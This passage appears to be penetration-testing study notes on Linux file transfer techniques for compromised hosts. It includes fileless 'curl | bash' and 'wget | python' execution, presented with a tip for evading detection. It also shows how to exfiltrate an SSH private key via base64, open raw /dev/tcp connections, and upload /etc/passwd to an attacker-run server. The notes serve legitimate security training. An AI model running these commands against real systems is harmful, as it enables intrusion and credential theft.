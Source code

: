     - **Pitfalls**: Requires Python modules; inbound HTTP must be allowed.
    - **Tip**: Ideal when SMB is blocked but HTTP is open.

---

### Linux File Transfer Methods

### Real-World Scenario

- **Context**: Incident response on compromised web servers (6/9 affected) via SQL injection.
    - Attack: Bash script attempted malware download using:
        1. `cURL`
        2. `wget`
        3. Python (HTTP-based fallback).
    - Purpose: Deliver payload connecting to a command-and-control (C2) server.
- **Insight**: HTTP/HTTPS is favored by malware; defenders must monitor these protocols.

### Detailed Techniques

1. **Base64 Encode/Decode**
    - **Process**:
        - Encode: `cat id_rsa | base64 -w 0; echo` → `LS0tLS1CRUd...`.
        - Decode: `echo -n '<base64>' | base64 -d > id_rsa`.
        - Verify: `md5sum id_rsa` → `4e301756a07ded0a2dd6953abf015278`.
    - **Reverse (Upload)**: Encode on target, decode on Pwnbox.
    - **Advantages**: No network dependency; works in air-gapped scenarios.
    - **Tip**: Use `n` with `echo` to avoid trailing newline issues.
2. **Web Downloads**
    - **wget**: `wget https://<URL> -O /tmp/file`.
    - **cURL**: `curl -o /tmp/file https://<URL>`.
    - **Fileless**:
        - `curl https://<URL> | bash`.
        - `wget -qO- https://<URL> | python`.
    - **Advantages**: Common tools, widely available.
    - **Pitfalls**: Blocked by egress filtering or missing on minimal systems.
    - **Tip**: Use fileless execution to evade disk-based detection.
3. **Bash (/dev/tcp)**
    - **Use Case**: No wget/cURL, Bash 2.04+ with `-enable-net-redirections`.
    - **Process**:
        - Connect: `exec 3<>/dev/tcp/<IP>/<Port>`.
        - Request: `echo -e "GET /file HTTP/1.1\\n\\n" >&3`.
        - Retrieve: `cat <&3`.
    - **Advantages**: Minimal dependencies; built into Bash.
    - **Pitfalls**: Requires specific Bash compilation; raw HTTP response includes headers.
    - **Tip**: Pipe output to `tail` or `grep` to clean up.
4. **SSH/SCP**
    - **Setup (Pwnbox)**:
        - Enable: `sudo systemctl enable ssh`.
        - Start: `sudo systemctl start ssh`.
        - Verify: `netstat -lnpt` (check TCP/22).
    - **Download**: `scp <user>@<IP>:/path/to/file /local/path`.
    - **Upload**: `scp /local/file <user>@<IP>:/remote/path`.
    - **Advantages**: Secure, encrypted transfers.
    - **Pitfalls**: Requires SSH server and credentials; TCP/22 may be blocked.
    - **Tip**: Use temporary accounts for security.
5. **Uploads**
    - **Web with uploadserver**:
        - Install: `pip3 install uploadserver`.
        - Cert: `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048`.
        - Run: `python3 -m uploadserver 443 --server-certificate /server.pem`.
        - Upload: `curl -X POST https://<IP>/upload -F 'files=@/etc/passwd' --insecure`.
    - **Simple Web Servers**:
        - Python3: `python3 -m http.server 8000`.
        - Python2: `python2.7 -m SimpleHTTPServer 8000`.